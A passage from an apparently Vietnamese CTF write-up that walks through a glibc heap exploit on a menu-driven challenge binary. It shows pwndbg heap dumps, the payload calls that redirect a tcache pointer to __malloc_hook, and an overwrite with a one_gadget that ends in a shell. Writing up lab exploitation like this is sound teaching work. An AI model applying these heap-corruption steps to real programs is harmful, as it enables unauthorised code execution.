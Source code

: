 ```c
Top chunk | PREV_INUSE
Addr: 0x55555555e360
Size: 0x1fca1
```

- Sau khi overwrite:

```c
Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x55555555dda0
Size: 0x581
fd: 0x7ffff7dcdca0
bk: 0x7ffff7dcdca0

Allocated chunk | IS_MMAPED
Addr: 0x55555555e320
Size: 0x6262626262626262
```

- Vậy giờ ta yêu cầu malloc 1 size 0x578 thì nó sẽ dùng chunk 4 đó malloc.

```c
pwndbg> p/x 0x55555555e2f0-0x55555555ddb0
$2 = 0x540
```

- Tính toán offset để đến fd của chunk 5.

```c
add(4,'web','b',0x578,"c"*0x540+p64(_malloc_hook),1000)
add(5,'web','d',0x78,"b"*0x78,1000)
add(6,'web','d',0x78,p64(one),1000)
```

- Với dòng đầu tiên ta có thể overwrite fd của chunk 5 thành malloc hook.

```c
pwndbg> bin
tcachebins
0x40 [  1]: 0x55555555d260 ◂— 0x0
0x80 [  1]: 0x55555555e2f0 —▸ 0x7ffff7dcdc30 (__malloc_hook) ◂— ...
```

- Giờ ta chỉ cần add thêm 1 chunk size 0x78 thì trong bin chỉ còn malloc hook, add thêm lần nữa là malloc cho __malloc_hook lúc này ghi data là one_gadget thì ta sẽ overwrite được __malloc_hook thành one_gadget.

```c
pwndbg> x/xg 0x7ffff7dcdc30
0x7ffff7dcdc30 <__malloc_hook>: 0x00007ffff7aec41c //one_gadget
```

- Vậy là thành công giờ ta malloc sẽ có được shell.

```c
[*] Switching to interactive mode
Created challenge!
1. Make Challenge
2. Patch Challenge
3. Deploy Challenge
4. Take Down Challenge
5. Do nothing
> Challenge number: $
$ w
 10:54:26 up  1:29,  0 users,  load average: 0.07, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
$
```

